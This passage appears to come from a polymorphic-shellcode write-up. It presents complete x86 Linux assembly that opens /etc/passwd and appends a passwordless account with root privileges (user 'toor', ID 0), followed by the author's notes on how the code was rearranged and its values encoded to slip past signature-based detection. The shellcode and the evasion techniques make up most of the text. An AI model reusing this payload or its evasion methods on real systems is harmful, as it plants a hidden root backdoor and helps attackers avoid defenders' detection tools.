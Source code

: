 ```nasm
mov [esp+3], byte ah    ; Replace the last '#' with \x00
mov [esp+2], byte 0x0a  ; Replace the ' ' at the end of the string to write with a newline character
push 0x61622f6e
push 0x69622f3a
push 0x746f6f72
push 0x2f3a7230
push 0x30743a30
push 0x3a303a3a
push 0x726f6f74
mov edi, esp            ; save pointer to 'toor::0[...] in EDI.
push 0x23647773
mov [esp+3], byte ah    ; Replace the first '#' with \x00
push 0x7361702f
push 0x6374652f         ; string is now carved out
mov ebx, esp            ; save pointer to entire string to ebx

add cx, 0x0442
int 0x80                ; execute open(2)


push eax                ; push the file handle returned by open(2)
pop ebx                 ; pop it into EBX
mov ecx, edi            ; Move into ECX the pointer to 'toor::0[...]' saved in edi.
add dl, 0x1f            ; EDX should be zero, so move the length of the string we're writing into dl.
mov al, 0x04
int 0x80                ; make write(2) syscall


mov al, 0x06
int 0x80                ; make a close(2) syscall using the file descriptor still in EBX

inc eax
int 0x80                ; make an exit(2) syscall to gracefully exit

```

To briefly discuss the changes made, I move from using JMP CALL POP to get a reference to data to pushing it to the stack directly. This hurts pattern matching on the string as it is now broken up by the opcode for PUSH every four bytes and the values pushed are reversed. In addition, immediately as values I want to modify are pushed we make the changes, further breaking up the large swath of PUSH instructions. 

I also replace some MOVs with PUSH POPS and ADDs. and remove unneeded MOVs to DX before a call to `open(2)` and some other unneeded instructions. You can see a techniques for obfuscating values in the bytecode where I 'encode' the value and move the encoded value into the register, then modify the register with a SUB, ADD, AND, XOR, etc. so that the bytecode doesn't include the real value being used. 

My version is 104 bytes, three bytes smaller than the original. 
